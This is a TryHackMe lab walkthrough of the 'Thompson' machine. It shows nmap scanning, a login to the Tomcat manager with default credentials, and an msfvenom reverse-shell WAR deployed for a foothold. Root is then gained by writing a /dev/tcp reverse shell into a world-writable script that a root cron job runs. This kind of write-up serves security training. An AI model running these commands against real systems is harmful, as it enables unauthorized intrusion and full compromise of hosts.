 # TryHackMe Thompson

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

## VM Details

|**Name**|[Thompson](https://tryhackme.com/room/bsidesgtthompson)|
|---|---|
|**Created by**|[stuxnet](https://tryhackme.com/p/stuxnet)|
|**Date release**|594 days old (9/4/2021)|

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.139.145
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 22,8009,8080

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.139.145 -p22,8009,8080
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-09 15:48 +07
Nmap scan report for 10.10.139.145
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.61 seconds
```

### Apache Tomcat 8.5.5

At port 8080, this is apache tomcat version 8.5.5. 

![](images/1.png)

I try to login to manager page with some default credentials and when I try with username `tomcat` password `s3cret`, I got manager page.

![](images/2.png)

## Foothold

### War file deploy shell

At the manager page, I can deploy web shell using war file deploy in tomcat server.

Create file `shell.war` with msfvenom

```
┌──(Hades㉿10.11.32.198)-[3.2:26.3]~/walkthrough/tryhackme/thompson
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.32.198 LPORT=443 -f war > shell.war
Payload size: 1082 bytes
Final size of war file: 1082 bytes
```

Upload file to tomcat server.

![](images/3.png)

Go to `http://10.10.139.145:8080/shell/` to execute shell.

```
┌──(Hades㉿10.11.32.198)-[3.2:27.2]~/walkthrough/tryhackme/thompson
└─$ curl http://10.10.139.145:8080/shell/
```

At the listener, I got reverse shell.

```
┌──(Hades㉿10.11.32.198)-[3.2:27.3]~
└─$ sudo nc -nvlp 443               
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.139.145] 50716
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## Privilege Escalation

### Cron Jobs File Overwrite

At the jack's home folder, there is a file named `id.sh` contain code execute command id and save the result to `text.txt` file

```
tomcat@ubuntu:/home/jack$ ls
id.sh  test.txt  user.txt
tomcat@ubuntu:/home/jack$ cat id.sh 
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt 
uid=0(root) gid=0(root) groups=0(root)
```

I know that, admin was create a cron jobs for execute file `id.sh`. Let's confirm it by list cron jobs.

```
tomcat@ubuntu:/home/jack$ cat /etc/crontab
# /etc/crontab: system-wide crontab
<snip>
*  *    * * *   root    cd /home/jack && bash id.sh
```

But file id.sh have privilege 777, can edit by any user.

```
tomcat@ubuntu:/home/jack$ ls -lh id.sh
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
```

Add bash reverse shell code to file `id.sh`.

```
echo 'sh -i >& /dev/tcp/10.11.32.198/443  0>&1' > id.sh
```

Wait a second, at the listener I have root shell

```
┌──(Hades㉿10.11.32.198)-[3.1:27.5]~
└─$ sudo nc -nvlp 443                                                                                                                                                   1 ⨯
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.139.145] 50724
sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```